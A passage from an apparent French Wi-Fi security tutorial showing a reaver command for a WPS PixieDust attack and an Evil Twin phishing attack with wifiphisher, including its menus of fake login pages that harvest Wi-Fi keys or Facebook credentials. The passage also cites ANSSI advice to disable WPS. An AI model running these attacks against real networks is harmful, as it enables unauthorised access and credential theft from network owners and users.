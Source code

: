 Il est alors possible de lancer l'attaque avec l'outil [reaver](https://tools.kali.org/wireless-attacks/reaver) qui implémente l'attaque PixieDust avec l'argument `-K` mais peut également faire du brute force classique.
La commande pour lancer l'attaque est la suivante :
```shell
reaver -i wlan0mon -b VV:II:CC:TT:II:ME -v
```
Mon réseau de test n'était pas vulnérable, il ne m'a pas été possible d'exécuter correctement cette attaque.

### 3.1 - Comment protéger son réseau wifi dont le WPS est activé afin d'éviter qu'un hacker le pirate
Il n'y a aucun moyen de sécuriser un point d'accès dont le WPS est activé. [L'ANSSI dans son guide de recommandations de sécurité relatives aux réseaux WiFi](https://www.ssi.gouv.fr/guide/recommandations-de-securite-relatives-aux-reseaux-wifi/) suggère de désactiver complètement cette fonctionnalité.

## 4 - Comment pirater un réseau, quelle que soit la méthode d'authentification via une attaque de phishing (Evil Twin)

Cette méthode est différente des trois autres méthodes présentées plus haut. En effet, il ne s'agit pas de casser un mot de passe ici, mais d'utiliser une **attaque de type phishing (Evil Twin)**. Le but est de générer un réseau qui a le même nom que le réseau cible mais qui lui sera ouvert (sans mot de passe). Une fois que le client se connectera à ce dernier, une fausse page sera générée pour faire office de page d'authentification. Les informations entrées seront alors transmises à l'attaquant. Les clients légitimement connectés au vrai réseau se verront déconnectés du réseau légitime par l'attaquant grâce à l'envoi de paquets de désauthentification.

Le framework [wifiphisher](https://github.com/wifiphisher/wifiphisher) sera utilisé car il est très complet et fait toutes ces opérations de manière automatique. Une fois installé, il suffit de le lancer avec la commande :
```shell
sudo wifiphisher
```
Il faut ensuite sélectionner un point d'accès à cloner :
```shell
Options:  [Esc] Quit  [Up Arrow] Move Up  [Down Arrow] Move Down
ESSID                          BSSID            CH  PWR  ENCR      CLIENTS VENDOR      
┌─────────────────────────────────────────────────────────────────────────────────────┐  
│ HACK-MOI-SI-TU-PEUX                 VV:II:CC:TT:IM:EE 11   0%   WPA2     0  Freebox │  
│                                                                                     │  
└─────────────────────────────────────────────────────────────────────────────────────┘
```

Le choix se fait avec les touches directionnelles :

```shell
Options: [Up Arrow] Move Up  [Down Arrow] Move Down

Available Phishing Scenarios:                                                                                  
1 - Firmware Upgrade Page
  A router configuration page without logos or brands asking for WPA/WPA2 password due to a firmware upgrade. Mobile-friendly.
2 - Browser Plugin Update
  A generic browser plugin update page that can be used to serve payloads to the                          
victims.         
3 - Network Manager Connect
  The idea is to imitate the behavior of the network manager by first showing the browser's "Connection Failed" page and then displaying the victim's network manager window through the page asking for the pre-shared key.
4 - OAuth Login Page
  A free Wi-Fi Service asking for Facebook credentials to authenticate using OAuth
```
